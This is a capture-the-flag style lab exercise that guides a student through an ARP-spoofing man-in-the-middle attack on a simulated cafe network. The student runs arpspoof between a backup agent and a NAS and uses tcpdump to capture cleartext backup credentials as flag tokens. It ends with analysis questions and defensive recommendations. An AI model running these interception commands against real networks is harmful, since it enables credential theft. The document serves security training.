



Exercise 7B: Intercept and Capture
Before You Begin
You will repeat the ARP spoofing man-in-the-middle attack from Exercise 7A, but against a different traffic flow with less guidance. A backup agent on the Bean & Byte Cafe network syncs to the NAS server on a schedule, sending credentials in cleartext on every run. Your job is to insert yourself between the agent and the NAS, capture the backup request, and recover the two flag tokens it carries.
Make sure you have:
- VPN connected and verified
- The tap IP from the Active Lab View (the
.250host on your segment) - Completed Exercise 7A so the
arpspoofandtcpdumpworkflow is familiar
Engagement Status
[ARP Reconnaissance] -> [ARP Spoofing / MITM] -> >> Independent Challenge << -> [Detection & Defense]
Scenario
The cafe runs an automated backup that periodically syncs the barista workstation's data to the NAS backup server. The backup agent embeds a username, a password, and a backup authentication key in every request, all over cleartext HTTP. The traffic crosses the same flat, unprotected segment you have already exploited. The username is the plain account name; the password and the backup key are the two flag tokens.
Prove the credentials are exposed. You have the technique from Exercise 7A. Apply it here against different hosts and a different port, and read the two tokens out of the captured request.
Your Objectives
- Identify the two endpoints of the backup conversation and their offsets
- Poison both ARP caches with
arpspoofso the traffic routes through the tap - Confirm the poisoning from a victim's neighbor table
- Capture the cleartext backup POST with
tcpdump - Recover the two credential tokens from the
passwordandbackup_keyfields - Assemble and submit the flag
Network Devices
| Host | Offset | Role |
|---|---|---|
| Gateway | .1 | Network router |
| Barista Workstation | .23 | Staff machine |
| NAS Backup | .127 | Backup storage server |
| Backup Simulator | .200 | Automated backup agent |
Differences from Exercise 7A
- The backup traffic uses a different port than the POS transactions.
- The backup runs on a longer interval, roughly every eighteen seconds.
- The targets are different hosts: identify which two you must sit between.
- There are two tokens, both in the POST body, not split across request and response. The
usernamefield is the plain account name and is not a token; thepasswordandbackup_keyfields carry theOCR-SN:tokens. - The NAS port expects TLS, so the agent's plain HTTP request draws a
400 Bad Request. The credentials still cross the wire in cleartext before the server rejects the request, so the capture still works. Look for that detail in your own capture.
Flag Format
The flag is assembled from two tokens found in the intercepted backup POST: the password value and the backup_key value. Tokens are prefixed with OCR-SN:; use only the value after the prefix, and join them in the order they appear in the body.
Walkthrough
Step 0: SSH into the Network Tap
ARP spoofing is a Layer 2 attack, and your Kali machine reaches the cafe over a Layer 3 VPN tunnel, so the Layer 2 tools must run from the on-segment tap. The tap IP appears in the Active Lab View as the .250 host on your segment.
SSH into the network tap
Open an SSH session to the tap from your Kali terminal. Every command below runs from inside that session.
Authenticate with password Security1#.
Step 1: Identify the Backup Endpoints
Confirm the two targets respond
The backup agent posts to the NAS over HTTP. Confirm both endpoints are reachable and record their real MACs before the attack.
Captured output from the live lab (your MACs will differ, the IPs match your segment):
Step 2: Poison Both Caches
Start bidirectional ARP spoofing
Run two spoofers, one for each direction, between the backup agent (.200) and the NAS (.127). Background both so the poisoning continues while you capture.
arpspoof -i eth0 -t <backup_sim_ip> <nas_ip> >/dev/null 2>&1 &
arpspoof -i eth0 -t <nas_ip> <backup_sim_ip> >/dev/null 2>&1 &
To watch the forged replies, run one in the foreground briefly. Each line announces a victim IP "is-at" the tap's MAC.
Captured output from the live lab:
82:e1:fe:07:54:dd fe:24:52:c4:cb:1e 0806 42: arp reply 10.100.71.127 is-at 82:e1:fe:07:54:dd
82:e1:fe:07:54:dd fe:24:52:c4:cb:1e 0806 42: arp reply 10.100.71.127 is-at 82:e1:fe:07:54:dd
82:e1:fe:07:54:dd fe:24:52:c4:cb:1e 0806 42: arp reply 10.100.71.127 is-at 82:e1:fe:07:54:dd

Press Ctrl+C to return that process to the background pair, and leave both spoofers running.
Step 3: Confirm the Poisoning
Verify a victim's cache points at the tap
On the NAS, the backup agent's IP (.200) now resolves to the tap's MAC. The neighbor table proves the traffic routes through you.
cafe-nas:~$ ip neigh
10.100.71.200 dev eth0 lladdr 82:e1:fe:07:54:dd REACHABLE
10.100.71.250 dev eth0 lladdr 82:e1:fe:07:54:dd STALE

The agent IP (.200) and the tap (.250) share one MAC (82:e1:fe:07:54:dd), which is the tap.
Step 4: Capture the Backup Credentials
Capture the backup POST with tcpdump
Capture the NAS port and print the ASCII payload. The greater 200 filter drops bare ACKs. The agent posts roughly every eighteen seconds, so allow forty seconds for at least one backup cycle.
Captured output from the live lab (request and the NAS rejection):
18:15:55.520906 IP 10.100.71.200.51644 > 10.100.71.127.8443: Flags [P.], length 241
POST /api/backup HTTP/1.1
Host: 10.100.71.127:8443
User-Agent: curl/7.81.0
Accept: */*
Content-Type: application/x-www-form-urlencoded
Content-Length: 79
username=barista&password=OCR-SN:<TOKEN>&backup_key=OCR-SN:<TOKEN>&action=sync
18:15:55.521084 IP 10.100.71.127.8443 > 10.100.71.200.51644: Flags [P.], length 425
HTTP/1.1 400 Bad Request
Server: nginx/1.18.0 (Ubuntu)
Content-Type: text/html
Connection: close
<center>The plain HTTP request was sent to HTTPS port</center>

The NAS answers 400 Bad Request because the agent sent plain HTTP to a TLS port. The rejection is irrelevant to you: the credentials already crossed the wire in cleartext, which is exactly what the capture shows.
Two tokens in the body
The username field is the plain account name, not a token. Only the password and backup_key fields carry the OCR-SN: prefix, so the two flag tokens are the password value and the backup_key value (each is the text after its own OCR-SN: prefix). The action=sync field is not a token either.
Step 5: Assemble and Submit the Flag
Strip the OCR-SN: prefix from the password and backup_key values, then join the two values with an underscore in body order:
Submit the assembled flag in the platform.
Step 6: Restore the Network
Stop the attack and clean up
Kill both spoofers so arpspoof restores the real bindings, then close the session.
Analysis Questions
1. What is the risk of sending backup credentials in cleartext?
Reveal Answer
Backup credentials often grant access to a copy of every system's data, so intercepting them can be worse than intercepting one host's login. An attacker who reads the password and backup key from the wire could authenticate to the NAS, read or alter every backup, and use any reused credential to pivot to the systems that the backups came from.2. How would mutual TLS (mTLS) prevent this attack?
Reveal Answer
Standard TLS authenticates only the server. Mutual TLS requires the client to present a valid certificate as well, and it encrypts the payload. The ARP spoofing would still place the attacker in the path, but the captured bytes would be ciphertext, and the attacker could not present a valid client certificate to impersonate the agent to the NAS.3. What network segmentation would protect backup traffic?
Reveal Answer
Backup traffic should never share a broadcast domain with guest or general staff devices. A dedicated management VLAN for the NAS and the backup agent, with firewall rules that permit only the backup port between them, would keep an attacker on the guest segment from ever reaching the conversation at Layer 2.4. Could you modify the intercepted data, not just read it?
Reveal Answer
Yes. A man-in-the-middle position allows active tampering, not only passive observation. An attacker could alter the backup payload in transit, inject malicious content into a backup that is later restored, or replay captured credentials against the NAS. Interception is only the first capability the position grants.5. Would encrypted backup protocols such as SFTP or SCP change the outcome?
Reveal Answer
The credentials and data would be protected inside the SSH tunnel, so the captured bytes would be useless. The ARP spoofing itself would still succeed at Layer 2, meaning the attacker could still disrupt the transfer, but they could not read or forge the protected contents.Common Pitfalls
- Spoofing between the wrong pair of hosts: the conversation is agent to NAS, not workstation to gateway.
- Capturing on the POS port from Exercise 7A instead of the NAS port.
- Not waiting a full backup cycle of roughly eighteen seconds.
- Running the Layer 2 tools from Kali instead of inside the tap session.
Defensive Recommendations
- The backup system transmits credentials in every request without encryption.
- Any device on the same segment can intercept those credentials via ARP spoofing.
- The NAS accepts connections from any source with no IP allowlisting.
- Backup traffic should be encrypted end to end with SFTP, SCP, or properly enforced HTTPS.
- Critical infrastructure like the NAS belongs on an isolated management VLAN.
Key Takeaways
- One technique, many flows. The same ARP spoof that captured payment data captured backup credentials; only the targets and port changed.
- A 400 error is not a defense. The NAS rejected the request, but the credentials had already crossed the wire in cleartext.
- Backup credentials are high value. They often unlock every system whose data they protect.
- Segmentation and encryption are the real fixes. Neither a self-signed cert on the wrong listener nor a flat network protects credentials in transit.